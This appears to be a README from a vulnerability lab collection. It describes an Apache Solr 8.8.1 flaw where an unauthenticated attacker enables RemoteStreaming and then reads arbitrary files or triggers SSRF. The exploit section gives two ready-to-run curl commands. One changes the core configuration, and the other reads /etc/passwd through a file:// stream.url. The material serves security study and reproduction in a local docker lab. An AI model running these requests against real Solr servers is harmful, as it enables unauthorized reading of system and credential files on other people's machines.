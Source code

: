# Apache Solr RemoteStreaming Arbitrary File Reading and SSRF

[中文版本(Chinese version)](README.zh-cn.md)

Apache Solr is an open source search server. When Apache Solr does not enable authentication, an attacker can directly craft a request to enable a specific configuration, and eventually cause SSRF or arbitrary file reading.

References: 

- https://mp.weixin.qq.com/s/3WuWUGO61gM0dBpwqTfenQ

## Vulnerability environment

Execute following commands to start a Apache Solr 8.8.1:

```
docker-compose up -d
```

After the environment is started, browser `http://your-ip:8983` to view the Apache Solr.

## Exploit

First, visit `http://your-ip:8983/solr/admin/cores?indexInfo=false&wt=json` to extract the database name:

![](1.png)

Send the following request, modify the configuration of the database `demo` to enable `RemoteStreaming`:

```
curl -i -s -k -X $'POST' \
     -H $'Content-Type: application/json' --data-binary $'{\"set-property\":{\"requestDispatcher.requestParsers.enableRemoteStreaming\":true}}' \
     $'http://your-ip:8983/solr/demo/config'
```

![](2.png)

Then read arbitrary file through `stream.url`:

```
curl -i -s -k'http://your-ip:8983/solr/demo/debug/dump?param=ContentStreams&stream.url=file:///etc/passwd'
```

![](3.png)